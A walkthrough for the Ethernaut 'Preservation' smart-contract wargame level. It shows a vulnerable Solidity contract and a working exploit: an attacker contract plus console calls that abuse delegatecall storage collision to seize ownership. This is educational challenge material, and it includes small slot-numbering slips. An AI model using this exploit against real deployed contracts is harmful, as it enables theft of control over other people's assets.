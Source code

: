 ```yaml
---
description: delegatecall and storage collision
---
```


# 16 - Preservation

Ethernaut Level16: [Preservation](https://ethernaut.openzeppelin.com/level/0x725595BA16E76ED1F6cC1e1b65A88365cC494824)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

### Goal of this level

* claim ownership

### What you should know before

* `delegatecall`  \
  \-> see [here](https://www.youtube.com/watch?v=uawCDnxFJ-0), [here](https://www.youtube.com/watch?v=bqn-HzRclps), and [here](https://www.youtube.com/watch?v=oinniLm5gAM)
* Storage Collision\
  \-> see `here`

## Solution

<details>

<summary>Key to solve this problem 🔑</summary>

**`Preservation`** contract has 3 storage variables (`slot0`, `slot1`, and `slot2`).

But **`LibraryContract`** has only 1 storage variable (`slot0`).

So whatever you pass into when calling `setFirstTime()` function, the value you pass to parameter will be stored in `slot0` of **`Preservation`** contract.

So we will make `slot0` (**`timeZoneLibrary`**) to point our **`AttackPerservation`** contract.

</details>

User Remix IDE to deploy it!

#### 1) deploy AttackPreservation

```solidity
contract AttackPreservation {
    bytes32 public slot0;
    bytes32 public slot1;
    address public owner;

    function setTime(uint256) public {
        owner = tx.origin;
    }
}
```

`slot0` and `slot2` variables are declared as `bytes32` type just to avoid variable packing.\
(If you are unfamiliar with this concept, see [here](https://fravoll.github.io/solidity-patterns/tight\_variable\_packing.html))

When `setTime()` is called via delegatecall from a  contract, `tx.origin`  will be store in `slot3` of the caller contract.

#### 2) make timeZone1Library variable point AttackPreservation

```javascript
> await contract.setFirstTime("0xcdB7a3B1C534A1B410c33c857492D40E8EF865e2")
```

timeZone1Library initially points to LibraryContract.

But by calling `setFirstTime()`, `setTime()` function in **`LibraryContract`** will run in the context of **`Perservation`** contract.\
(Thus updates slot0 of **`Preservation`** contract)

#### 3) Change owner&#x20;

```javascript
> await contract.setFirstTime("0xcdB7a3B1C534A1B410c33c857492D40E8EF865e2")
```

You can pass in any value into the parameter.\
(Since we are not using it anyway).

`setTime()` function in **`AttackPreservation`** contract will run in the context of **`Preservation`**, so `slot3` varaible of **`Preservation`** contract will be updated to be `tx.origin` (which is your wallet address)

Done! 😎

## Key Takeaways

* When using `delegatecall`, make sure that the contract you're calling has **the same storage layout** as the caller contract.
